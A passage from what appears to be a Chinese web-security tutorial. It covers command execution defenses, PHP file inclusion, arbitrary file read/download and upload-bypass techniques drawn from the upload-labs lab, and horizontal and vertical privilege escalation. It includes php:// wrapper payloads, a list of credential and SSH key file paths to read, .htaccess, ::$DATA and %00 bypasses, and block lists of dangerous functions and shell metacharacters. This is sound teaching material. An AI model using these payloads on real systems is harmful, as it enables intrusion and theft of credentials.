pickle.load(open('./poc.pickle'))
```


#### 命令执行&代码执行防御

**PHP**

disable_function 是在php.ini配置文件中中一个自带的禁止函数访问的配置

禁止代码执行或者命令执行可以禁止一下函数

```php
#危险函数
system,shell_exec,exec,passthru,popen,proc_open,pcntl_exec,dl,proc_open,pfsockopen,popen
```

```
#防御函数
escapeshellarg
escapeshellcmd
```


**Python**

第三方库：

```
shlex
>>> shlex.split('ls -l /data || pwd')
['ls', '-l', '/data', '||', 'pwd']
```


自写函数

```python
def check_cmd_exec(input):
    '''
        * input为输入字符串
        * 检测到危险字符串，返回True，否则返回False
        * author: JoyChou
        * date:   2018-03-21
    '''
    res = ''
    blacklist = '`$()&;|'

    for i, ch in enumerate(input):
        if ord(ch) == 10 or ch in blacklist:
            return True
    return False
```


## 文件包含漏洞

参考文章：https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/


### 分类

#### LFI(Local File Inclusion)

本地文件包含漏洞，顾名思义，指的是能打开并包含本地文件的漏洞。大部分情况下遇到的文件包含漏洞都是LFI。简单的测试用例如前所示。


#### RFI(Remote File Inclusion)

远程文件包含漏洞。是指能够包含远程服务器上的文件并执行。由于远程服务器的文件是我们可控的，因此漏洞一旦存在危害性会很大。
但RFI的利用条件较为苛刻，需要php.ini中进行配置

两个配置选项均需要为On，才能远程包含文件成功。


在php.ini中，allow_url_fopen默认一直是On，而allow_url_include从php5.2之后就默认为Off。


### 相关函数

php中引发文件包含漏洞的通常是以下四个函数：

```php
1. include()
2. include_once()
3. require()
4. require_once()
```

reuqire() 如果在包含的过程中有错，比如文件不存在等，则会直接退出，不执行后续语句。


include() 如果出错的话，只会提出警告，会继续执行后续语句。


require_once() 和 include_once() 功能与require() 和 include() 类似。但如果一个文件已经被包含过了，则 require_once() 和 include_once() 则不会再包含它，以避免函数重定义或变量重赋值等问题。


### php伪协议

#### php://input

利用条件：

1. allow_url_include = On。
2. 对allow_url_fopen不做要求。

姿势：

```
index.php?file=php://input

POST:
<? phpinfo();?>
```


[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/5.png?raw=true)

#### php://filter


利用条件：无甚

姿势：

```
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```


通过指定末尾的文件，可以读取经base64加密后的文件源码，之后再base64解码一下就行。虽然不能直接获取到shell等，但能读取敏感文件危害也是挺大的。
[](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/8.png?raw=true)

```
>>> import base64
>>> base64.b64decode("PD9waHAgDQoJJGZpbGUgPSAkX0dFVFsnZmlsZSddOw0KCWluY2x1ZGUgJGZpbGU7DQo/Pg==")
b"<?php \r\n\t$file = $_GET['file'];\r\n\tinclude $file;\r\n?>"
```

其他姿势：

```
index.php?file=php://filter/convert.base64-encode/resource=index.php
```


效果跟前面一样，少了read等关键字。在绕过一些waf时也许有用。


### 文件包含防御

- 在功能设计上不要把文件包含的对应文件放到前台去操作

- 过滤各种../,https://, http://

- 配置php.ini文件
  allow_url_fopen=off

  allow_url_include=off

  magic_quotes_gpc=on 

- 通过白名单策略
  topic.php,image.php

  file=topic.php

  ```
  $allow_file = [
     'topic.php',
     'image.php'
  ];
  if (in_array($_GET['file'], $allow_file)){
  
  }
  ```

  


## 文件读取和下载漏洞

### 0x01 为什么产生任意文件读取与下载漏洞

一些网站的业务需要，可能提供文件查看或下载的功能，如果对用户查看或下载的文件不做限制，就能够查看或下载任意的文件，可以是源文件，敏感文件等等。


### 0x02 任意文件读取漏洞

任意文件读取是属于文件操作漏洞的一种，一般任意文件读取漏洞可以读取配置信息甚至系统重要文件。严重的话，就可能导致SSRF，进而漫游至内网。
**漏洞产生原因**

- 存读取文件的函数
- 读取文件的路径用户可控，且未校验或校验不严
- 输出了文件内容

```php
<?php
$filename=”test.txt”;
readfile($filename);
?>
```

```php
<?php
$filename=”test.txt”;
echo file_get_contents($filename);
?>
```

**文件读取函数**
`readfile()`、`file_get_contents()`、`fopen()`中，`$filename`没有经过校验或者校验不合格，用户可控制变量读取任意文件，如`/etc/passwd`、`./index.php`、`/config.ini`。


### 0x04任意文件读取与下载漏洞挖掘

> 1、web漏洞扫描器（awvs、appscan、openvas、nessus）
> 2、手动挖掘从连接和参数名查看

*Google search*

```
inurl:”readfile.php?file=
inurl:”read.php?filename=
inurl:”download.php?file=
inurl:”down.php?file=
```

连接：
`readfile.php?file=**.txt`
`download.php?file=**.rar`
参数名：
`&RealPath=`、`&readpath=`、`&FilePath=`、`&filepath=`、`&Path=`、`&path=`、`&Inputfile=`、`&inputfile=`、`&url=`、`&urls=`、`&Lang=`、`&dis=`、`&Data=`、`&data=`、`&readfile=`、`&filep=`、`&Src=`、`&src=`、`&menu=`、`META-INF=` 、`WEB-INF`


### 0x03 任意文件下载漏洞

一些网站由于业务需求，往往需要提供文件下载功能，但若对用户下载的文件不做限制，则恶意用户就能够下载任意敏感文件，这就是文件下载漏洞。
**漏洞产生原因**

- 有读取文件的函数
- 读物文件的路径用户可控，且没有经过校验，或者校验不严格
- 输出文件内容
- 一个正常的网站，存在一个下载文件的功能，同时还会从浏览器接收文件名字
  

**文件下载的两种方式**
1、直接下载：

```
<a href=”http://www.a.com/xxx.rar”>下载</a>
```

2、增加header头

```
<?php
    $filename = $_GET['filename'];
    echo '<h1>开始下载文件</h1><br /><br />';
    echo file_get_contents($filename);

    header('Content-Type: imgage/jpeg');
    header('Content-Disposition: attachment; filename='.$filename);
    header('Content-Lengh: '.filesize($filename));
?>
```


### 0x05 实战利用方式

- 读取配置文件进行信息收集

  **Windows：**

  > C:\boot.ini //查看系统版本
  > C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
  > C:\Windows\repair\sam //存储系统初次安装的密码
  > C:\Program Files\mysql\my.ini //Mysql配置
  > C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
  > C:\Windows\php.ini //php配置信息
  > C:\Windows\my.ini //Mysql配置信息

  **Linux：**

  > /root/.ssh/authorized_keys //如需登录到远程主机，需要到.ssh目录下，新建authorized_keys文件，并将id_rsa.pub内容复制进去
  > /root/.ssh/id_rsa //ssh私钥,ssh公钥是id_rsa.pub
  > /root/.ssh/id_ras.keystore //记录每个访问计算机用户的公钥
  > /root/.ssh/known_hosts
  > //ssh会把每个访问过计算机的公钥(public key)都记录在~/.ssh/known_hosts。当下次访问相同计算机时，OpenSSH会核对公钥。如果公钥不同，OpenSSH会发出警告， 避免你受到DNS Hijack之类的攻击。
  > /etc/passwd // 账户信息
  > /etc/shadow // 账户密码文件
  > /etc/my.cnf //mysql 配置文件
  > /etc/httpd/conf/httpd.conf // Apache配置文件
  > /root/.bash_history //用户历史命令记录文件
  > /root/.mysql_history //mysql历史命令记录文件
  > /proc/self/fd/fd[0-9]*(文件标识符)
  > /proc/mounts //记录系统挂载设备
  > /porc/config.gz //内核配置文件
  > /var/lib/mlocate/mlocate.db //全文件路径
  > /porc/self/cmdline //当前进程的cmdline参数


- 读取代码漏洞审计

  


### 0x06 漏洞防御修复

**通用**

- 过滤 `.` 点，使用户在url中不能回溯上级目录
- 正则严格判断用户输入的参数
- `php.ini`配置`open_basedir`限定文件访问范围

**文件下载漏洞修复**

```
download
id
path 
-------
download.php?id=1
```


- 将下载区独立出来，放在项目路径外，给每个下载资源固定的URL，而不是所有的下载资源都是统一的URL：`www.test.com/download?filename=文件名`
- 净化数据：对用户传过来的文件名参数进行硬编码或统一编码，对文件类型进行白名单控制，对包含恶意字符或者空字符的参数进行拒绝。
- web应用程序可以使用chroot环境包含被访问的web目录，或者使用绝对路径+参数来访问文件目录，时使其即使越权也在访问目录之内。www目录就是一个chroot应用。由chroot创造出的那个根目录，叫做“chroot监狱”(所谓”监狱”就是指通过chroot机制来更改某个进程所能看到的根目录，即将某进程限制在指定目录中，保证该进程只能对该目录及其子目录的文件有所动作，从而保证整个服务器的安全。
  详细具体chroot的用法，可参考：`blog.csdn.net/frozen_fish/article/details/2244870`
- 任意文件下载漏洞也有可能是web所采用的中间件的版本低而导致问题的产生，例如ibm的websphere的任意文件下载漏洞，需更新其中间件的版本可修复。
- 要下载的文件地址保存至数据库中。
- 文件路径保存至数据库，让用户提交文件对应ID下载文件。
- 用户下载文件之前需要进行权限判断。
- 文件放在web无法直接访问的目录下。
- 不允许提供目录遍历服务。
- 公开文件可放置在web应用程序下载目录中通过链接进行下载。
- 记录文件下载日志。


## 文件上传漏洞

### 0x01 漏洞描述和原理

文件上传漏洞可以说是日常渗透测试用得最多的一个漏洞，因为用它获得服务器权限最快最直接。但是想真正把这个漏洞利用好却不那么容易，其中有很多技巧，也有很多需要掌握的知识。俗话说，知己知彼方能百战不殆，因此想要研究怎么防护漏洞，就要了解怎么去利用。

网站web应用都有一些文件上传功能，比如文档、图片、头像、视频上传，当上传功能的实现代码没有严格校验上传文件的后缀和文件类型，此时攻击者就可以上传一个webshell到一个web可访问的目录上，并将恶意文件传递给PHP解释器去执行，之后就可以在服务器上执行恶意代码，进行数据库执行、服务器文件管理，服务器命令执行等恶意操作。
根据网站使用及可解析的程序脚本不同，此处可以上传的恶意脚本可以是PHP、ASP、JSP文件，也可以是篡改后缀后的这几类脚本。

WebShell 就是以 asp、php、jsp 或者 cgi 等网页文件形式存在的一种命令执行环境，也可以将其称之为 一种网页后门。攻击者在入侵了一个网站后，通常会将这些 asp 或 php 后门文件与网站服务器 web 目录 下正常的网页文件混在一起，然后使用浏览器来访问这些后门，得到一个命令执行环境，以达到控制网站服务器的目的(可以上传下载或者修改文件，操作数据库，执行任意命令等）。


### 0x02 基础知识

#### php的超级全局变量 $_FILE

```php
$_FILES['file']['name'] 客户端文件名称

$_FILES['file']['type'] 文件的MIME类型

$_FILES['file']['size'] 文件大小 单位字节

$_FILES['file']['tmp_name'] 文件被上传后再服务器端临时文件名，可以在php.ini中指定
```

要注意的是在文件上传结束后，默认的被储存在临时文件夹中，这时必须把他从临时目录中删除或移动到其他地方，否则，脚本运行完毕后，自动删除临时文件，可以使用copy或者`move_uploaded_file`两个函数


#### 文件头content-type字段校验（服务端MIME类型检测）

MIME类型格式： 类别/子类别;参数 Content-Type: [type]/[subtype]; parameter

MIME主类别： text：用于标准化地表示的文本信息，文本消息可以是多种字符集和或者多种格式的；

Multipart：用于连接消息体的多个部分构成一个消息，这些部分可以是不同类型的数据；

Application：用于传输应用程序数据或者二进制数据；

Message：用于包装一个E-mail消息；

Image：用于传输静态图片数据；

Audio：用于传输音频或者音声数据；

Video：用于传输动态影像数据，可以是与音频编辑在一起的视频数据格式。


### 0x02 校验方式分类&总结

1、客户端javascript校验（一般只校验后缀名）

2、服务端校验

3、文件头content-type字段校验（image/gif）

4、后缀名黑名单校验

5、文件内容头校验（GIF89a）

6、后缀名白名单校验

7、自定义正则校验

8、WAF设备校验（根据不同的WAF产品而定）


### 0x03 漏洞利用

此次我们用的靶场是：upload-labs: https://github.com/c0ny1/upload-labs


#### 01利用HTTP PUT方式上传文件

> 这个漏洞已经过时，几乎不会再出此类漏洞

WebDAV是一种基于 HTTP 1.1协议的通信协议.它扩展了HTTP 1.1，在GET、POST、HEAD等几个HTTP标准方法以外添加了一些新的方法。使应用程序可直接对Web Server直接读写，并支持写文件锁定(Locking)及解锁(Unlock)，还可以支持文件的版本控制。当WebDAV开启PUT，MOVE，COPY，DELETE方法时，攻击者就可以向服务器上传危险脚本文件。

此时可以使用OPTIONS探测服务器支持的http方法，如果支持PUT，就进行上传脚本文件，在通过MOVE或COPY方法改名。当开启DELETE时还可以删除文件


#### 02绕过前端验证

```php
<?php
//文件上传漏洞演示脚本之js验证
$uploaddir = 'uploads/';
if (isset($_POST['submit'])) {
    if (file_exists($uploaddir)) {
        if (move_uploaded_file($_FILES['upfile']['tmp_name'], $uploaddir . '/' . $_FILES['upfile']['name'])) {
            echo '文件上传成功，保存于：' . $uploaddir . $_FILES['upfile']['name'] . "\n";
        }
    } else {
        exit($uploaddir . '文件夹不存在,请手工创建！');
    }
    //print_r($_FILES);
}
?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
    <title>文件上传漏洞演示脚本--JS验证实例</title>
    <script type="text/javascript">
       function checkFile() {
            var file = document.getElementsByName('upfile')[0].value;
            if (file == null || file == "") {
                alert("你还没有选择任何文件，不能上传!");
                return false;
            }
            //定义允许上传的文件类型
            var allow_ext = ".jpg|.jpeg|.png|.gif|.bmp|";
            //提取上传文件的类型
            var ext_name = file.substring(file.lastIndexOf("."));
            //alert(ext_name);
            //alert(ext_name + "|");
            //判断上传文件类型是否允许上传
            if (allow_ext.indexOf(ext_name + "|") == -1) {
                var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" +     ext_name;
                alert(errMsg);
                return false;
            }
        }
    </script>
<body>
<h3>文件上传漏洞演示脚本--JS验证实例</h3>
<form action="" method="post" enctype="multipart/form-data" name="upload" onsubmit="return     checkFile()">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="upfile"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

**绕过方式**

**去掉前端的提交时候的验证`checkFile` 函数既可**

演示地址：Pass-01/index.php


#### 03修改MIME类型绕过上传

**MIME type**的缩写为**(Multipurpose Internet Mail Extensions)**代表互联网媒体类型(Internet media type)，MIME使用一个简单的字符串组成，最初是为了标识邮件Email附件的类型，在html文件中可以使用content-type属性表示，描述了文件类型的互联网标准。

```php
?php
if($_FILE['userfile']['type'] != "image/gif"){ //检测content-type
    echo "sorry,we only allow uploading GIF images";
    exit;
}
else
{
    echo "Upload success!";
}
?>

```

以上是一个简单的服务器上传验证代码，只要content-type符合image/gif就允许上传

**绕过方式**

**使用Burp截取上传数据包，修改Content-Type的值，改为image/gif即可成功绕过上传webshell**


演示地址：Pass-02/index.php


#### 04后缀名黑名单校验之上传特殊脚本文件后缀突破

使用黑名单，禁止上传`.asp,.aspx,.php,.jsp` 结尾的文件。

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

**绕过方式**

**使用特殊文件`.php,.phtml、php2、php3、php5、phtml、pht`。来突破上传，在特定情况下同样也可以解析**

演示地址：Pass-03/index.php


#### 05后缀名黑名单校验之上传.htaccess绕过

还是使用黑名单，禁止上传所有web容器能解析的脚本文件的后缀

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2","php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2","pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

**绕过方式**

**上传`.htaccess` 静态规则让web容器把任意文件解析成PHP脚本文件**

```
<FilesMatch "fx">
SetHandler application/x-httpd-php
</FilesMatch>
```


演示地址：Pass-04/index.php


#### 06后缀名黑名单校验之利用大小写绕过

还是黑名单，但是这次把`.htaccess`也限制了

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

**绕过方式**

**在burp里改包，把文件名改成`.phP` 利用大小写绕过检测**

演示地址：Pass-05/index.php


#### 07后缀名黑名单校验之burp改包文件名后加空格绕过

还是黑名单，此时已经把所有后缀名改为小写，进行验证。

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = $_FILES['upload_file']['name'];
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file,$img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

**绕过方式**

**在burp里改包，把文件名改成`.php ` 在后缀名处加空格(%00) 绕过**

> 此种绕过方式受系统环境和Web容器影响

演示地址：Pass-06/index.php


#### 08后缀名黑名单校验之burp改包文件后缀加“.”绕过

还是黑名单，修复了上面的漏洞把文件后缀首尾空格去掉，进行验证。

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

**绕过方式**

**在burp里改包，把文件名改成`.php. ` 在后缀名处加空格.绕过**

> 但是没有对后缀名进行去”.”处理，利用windows特性，会自动去掉后缀名中最后的”.”，可在后缀名中加”.”绕过：

演示地址：Pass-07/index.php


#### 09后缀名黑名单校验之利用windows特性::$DATA绕过

还是黑名单策略，修复了上面的漏洞，也去掉了后缀名中的的点“.”

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

**绕过方式**

**在burp里改包，把文件名改成`.php::$DATA ` 在后缀名处加::$DATA绕过**

> 这道题利用的是Windows下NTFS文件系统的一个特性，即NTFS文件系统的存储数据流的一个属性 DATA 时，就是请求 a.asp 本身的数据，如果a.asp 还包含了其他的数据流，比如 a.asp:lake2.asp，请求 a.asp:lake2.asp::$DATA，则是请求a.asp中的流数据lake2.asp的流数据内容。

演示地址：Pass-08/index.php


#### 10后缀名黑名单校验之双写文件名绕过

这里是用替换的方式替换了后缀名。

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = str_ireplace($deny_ext,"", $file_name);// preg_match_all
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = UPLOAD_PATH.'/'.$file_name;        
        if (move_uploaded_file($temp_file, $img_path)) {
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

**绕过方式**

**在burp里改包，把文件名改成双写，比如`.php 改成 .phphpp` 把其中一个php替换掉之后组成一个新的php文件** 

演示地址：Pass-10/index.php


#### 11后缀名白名单校验之%00截断

可以看到是白名单，只能`'jpg','png','gif'`格式的文件访问，保存的路径是get传递的

```php
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else{
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
```

**绕过方式**

**在burp里改包，使用在url参数上%00截断绕过** 

演示地址：Pass-11/index.php


#### 12后缀名白名单校验之00截断

白名单，只能`'jpg','png','gif'`格式的文件访问，不过保存的路径是post传递的

```php
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_POST['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传失败";
        }
    } else {
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
```

**绕过方式**

**在burp里改包，在post包里用00截断绕过，这里只能改包的hex值，手动改%00字符串无效** 

演示地址：Pass-12/index.php


#### 13图片文件格式验证之图片木马

这里是读取了文件的内容，以文件的内容来判断是否是图片。

```php
function getReailFileType($filename){
    $file = fopen($filename, "rb");
    $bin = fread($file, 2); //只读2字节
    fclose($file);
    $strInfo = @unpack("C2chars", $bin);    
    $typeCode = intval($strInfo['chars1'].$strInfo['chars2']);    
    $fileType = '';    
    switch($typeCode){      
        case 255216:            
            $fileType = 'jpg';
            break;
        case 13780:            
            $fileType = 'png';
            break;        
        case 7173:            
            $fileType = 'gif';
            break;
        default:            
            $fileType = 'unknown';
        }    
        return $fileType;
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_type = getReailFileType($temp_file);

    if($file_type == 'unknown'){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
```

**绕过方式**

**制作图片一句话木马上传 `copy a.jpg/b + a.txt = a1.jpg`** 

演示地址：Pass-13/index.php


#### 14 条件竞争上传

这里是现把上传文件移动到目标文件夹，后对文件名进行判断。不符合条件的都删除掉。

```php
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}
```

**绕过方式**

**只要利用竞争上传，上传的php文件内容为写入shell文件，然后不断的访问该文件，只要访问成功，便可以写入shell，直接利用burp的intruder模块上传文件，同时不停的访问这个文件。** 


## 越权漏洞

### 0x01 漏洞介绍


  越权漏洞的危害与影响主要是与对应业务的重要性相关，比如说某一页面服务器端响应（不局限于页面返回的信息，有时信息在响应包中，页面不一定能看见）中返回登录名、登录密码、手机号、×××等敏感信息，如果存在平行越权，通过对用户ID的遍历，就可以查看所有用户的敏感信息，这也是一种变相的脱裤，而且很难被防火墙发现，因为这和正常的访问请求没有什么区别，也不会包含特殊字符，具有十足的隐秘性。


**水平越权**

水平越权指的是攻击者尝试访问与他拥有相同权限的用户的资源，怎么理解呢？比如某系统中有个人资料这个功能，A账号和B账号都可以访问这个功能，但是A账号的个人信息和B账号的个人信息不同，可以理解为A账号和B账号个人资料这个功能上具备水平权限的划分。此时，A账号通过攻击手段访问了B账号的个人资料，这就是水平越权漏洞。


**垂直越权**

权限ID不变，权限类型改变；如普通用户可使用管理员权限进行操作。如你登录时，发现cookie中有一个roleID的角色参数，那么可以通过修改该ID为1或者0，根据具体情况来定，就可以使用管理员权限了！


### 0x02 漏洞利用

#### 基于用户ID的越权

举个例子：

```none
https://www.xxx.com/user1/userinfo.php?user_id=user1
https://www.xxx.com/user1/userinfo.php?user_id=10001
```

